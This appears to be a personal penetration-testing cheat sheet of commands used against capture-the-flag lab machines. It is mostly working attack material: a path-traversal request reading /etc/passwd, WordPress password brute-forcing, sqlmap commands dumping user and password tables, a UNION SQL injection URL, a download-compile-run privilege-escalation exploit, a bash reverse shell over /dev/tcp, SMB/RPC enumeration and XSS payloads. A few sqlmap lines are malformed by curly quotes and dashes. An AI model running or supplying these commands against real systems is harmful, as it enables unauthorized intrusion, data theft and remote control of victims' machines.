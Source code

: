 curl http://10.10.227.125:3000/public/plugins/alertlist/../../../../../../../../../../etc/passwd --path-as-is
=============================================================================================================

gobuster dir -u http://10.10.191.70:3000 --exclude-length 28034 -t 100 -r -x php,txt,html -w dir-med.txt 2>/dev/null

=========================================================================================================
wpscan --url http://derpnstink.local/weblog/ --passwords /usr/share/wordlists/fasttrack.txt --usernames admin -t 25

wpscan --url http://derpnstink.local/weblog/ --enumerate u,p

=================================================================================

sqlmap -r sqli --risk=3 --level=5 --dbs --dump --batch --threads=10

sqlmap -r sqli1 --risk=3 --level=5 --dump --batch --threads=10 -D jabcd0cs -T odm_user

sqlmap -u http://10.10.X.X/login --method=POST --data=username=admin&password=admin -p username,password --risk=3 --level=3 --random-agent

sqlmap –dbms mysql –headers=”X-forwarded-for:1*” -u http://10.10.162.101

sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" -p blog --dbms=mysql -D vn_admin -T be_users -C username,password --dump


sqlmap -u http://contacttracer.thm --data="username=admin&password=sweetpandemonium" --random-agent --banner --dbs --cookie="PHPSESSID=r2ud86tmlhna1er5tob81t8m3u" --level 5 --risk3




Commands:

netdiscover -i eth1

nmap -p- -A (IP)

https://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user UNION SELECT 1,version(),3,4,5,6,7,8,9

ssh webmin@192.168.56.104

/bin/bash

lsb_release -a

cd /tmp
wget http://192.168.56.102/37292.c
gcc 37292.c -o 37292
chmod +x 37292
./37292 


========================================================================================

sudo whatweb https://10.10.11.102
sudo whatweb https://10.10.11.102 -v

sudo curl --help
sudo curl --help all
sudo curl -s -XGET -I 'https://www.windcorp.htb/' -k

sudo openssl s_client -connect 10.10.11.102:443

sudo gowitness -h
sudo gowitness single -h  
sudo gowitness single --fullpage -h  
sudo gowitness single --fullpage --output anubis.png https://www.windcorp.htb

sudo apt info feroxbuster
sudo apt install feroxbuster -y
sudo feroxbuster -h
sudo feroxbuster --url https://www.windcorp.htb --random-agent --extensions html asp aspx --insecure --auto-tune
 --threads 75 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt --output an
ubis.ferox 

sudo wfuzz -h
sudo wfuzz -u https://10.10.11.102 -H "Host: FUZZ.windcorp.htb" -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt --hh 315

=============================================================================================

tar -xvf exploit.tar
tar -xvf crasher.tar

=================================================================================

bash -i >& /dev/tcp/192.168.56.101/8080 0>&1

==============================================================

sudo rpcdump.py -h
sudo rpcdump.py windcorp.htb/administrator@10.10.11.102 -debug

sudo rpcclient -h
sudo rpcclient --user='' --no-pass 10.10.11.102
help
srvinfo
netshareenumall
enumdomusers
enumdomgroups
getdcname windcorp

====================================XSS===============================================


'';!--"<xss>=&{()}

<script>alert(1)</script>

</title><script>alert(1)</script>

a--><script>alert(1)</script>

><script>alert(1)</script>

'';!--"<xss>=&{()}

<svg/onload=alert(1)

<svg/onload=alert(1)%20
==============================================================================================
after dumping .db file we can interact with sqlite3 client from linux

sqlite3 example.db
PRAGMA table_info(customers);
SELECT * FROM customers;


